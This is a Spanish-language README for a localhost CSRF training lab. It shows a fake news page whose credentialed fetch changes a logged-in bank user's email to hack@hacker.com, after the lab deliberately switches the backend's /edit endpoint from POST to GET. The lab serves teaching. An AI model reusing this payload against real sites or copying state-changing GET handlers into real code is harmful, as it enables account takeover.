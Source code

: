
CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

# Manos a la obra

>## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234

<img src="./assets/01.png" style="zoom:67%;" />

>## Pasos 

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

<img src="./assets/02.png" style="zoom:67%;" />


Abrimos ahora nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se relaizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitio y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

<img src="./assets/03.png" style="zoom:67%;" />

Ahora vamos a hacer la simulación de utilizar el método GET, en vez del método POST para realizar peticiones que modifican datos en el servidor, ya que mucha gente en el día de hoy siguen utilizándolo para esto.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+       Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```
Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

<img src="./assets/04.png" style="zoom:67%;" />

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
